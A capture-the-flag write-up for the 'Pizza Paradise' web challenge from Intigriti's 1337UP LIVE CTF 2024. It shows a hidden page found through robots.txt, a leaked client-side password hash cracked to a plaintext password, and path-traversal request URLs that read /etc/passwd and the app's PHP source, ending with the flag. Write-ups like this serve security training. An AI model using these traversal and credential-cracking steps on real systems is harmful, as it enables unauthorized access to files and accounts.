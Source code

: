 ```yaml
---
name: Pizza Paradise (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Web
description: Writeup for Pizza Paradise (Web) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Pizza Paradise

## Video walkthrough

[![VIDEO](https://img.youtube.com/vi/qPxKyYrf9p4/0.jpg)](https://youtu.be/qPxKyYrf9p4 "Robots.txt, Hash Cracking and Path Traversal")

## Challenge Description

> Something weird going on at this pizza store!!

## Solution

Players arrive at an online pizza store (AI making some tasty looking pizzas these days 🤤).

![](./images/0.PNG)

There is appears to be nothing of interest, but `/robots.txt` has something.


```txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```


It's some kind of top secret login portal 🕵️‍♂️

![](./images/1.PNG)

Check the page source.


```js
function hashPassword(password) {
    return CryptoJS.SHA256(password).toString();
}

function validate() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const credentials = getCredentials();
    const passwordHash = hashPassword(password);

    if (username === credentials.username && passwordHash === credentials.passwordHash) {
        return true;
    } else {
        alert("Invalid credentials!");
        return false;
    }
}
```


The `getCredentials()` function is in `/assets/js/auth.js`.


```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```


Crack the SHA256 hash with `hashcat`, `john` or [crackstation](https://crackstation.net).


```txt
agent_1337:intel420
```


Now we get access to the portal and can download some secret images.

![](./images/2.PNG)

The download function makes a GET request.


```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```


Maybe we can try `/etc/passwd`


```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```


But we get an error: `File path not allowed!`

With some trial and error, it's clear that removing `/assets/images/` will cause problems. Let's try path traversal instead.


```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../../../../etc/passwd
```


It works! We could try common locations for a `flag.txt` _or_ we could download the PHP source code of the web app 💡


```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```


Inside, we find the flag!


```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```


Flag: `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
